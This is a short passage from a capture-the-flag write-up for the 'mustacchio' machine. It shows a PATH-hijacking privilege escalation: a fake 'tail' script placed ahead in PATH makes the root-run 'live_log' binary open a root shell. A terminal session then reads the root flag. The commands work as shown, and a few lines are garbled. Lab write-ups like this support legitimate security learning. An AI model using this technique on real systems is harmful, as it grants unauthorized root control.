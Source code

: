 This lane `tail -f /var/log/nginx/accessl.log`shows us the binary is running without a full path.
As this file runs as the root users privileges, we can manipulate our path gain a root shell:
How to exploit it?  
1. Create a new directory in /tmp/ folder example :  
mkdir /tmp/shell  
2. Go into that folder :  
cd /tmp/shell  
3. Change the /usr/bin folder to /tmp/shell  
export PATH=/tmp/shell:$PATH  
4. Create a tail file, enter these two commands:  
echo ‘#!/bin/bash’ > tail  
echo ‘/bin/bash’ >> tail  
5. Change the permissions for the tail file  
chmod +x tail  
6. Go back to live_log and run the file  
./live_log

```bash
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod 777 tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ cd /home/joe/
barry@mustacchio:/home/joe$ ./live_log
root@mustacchio:/home/joe# cd /root
root@mustacchio:/root# cat root.txt 
3223581420d906c4dd1a5f9b530393a5

```

Pwned !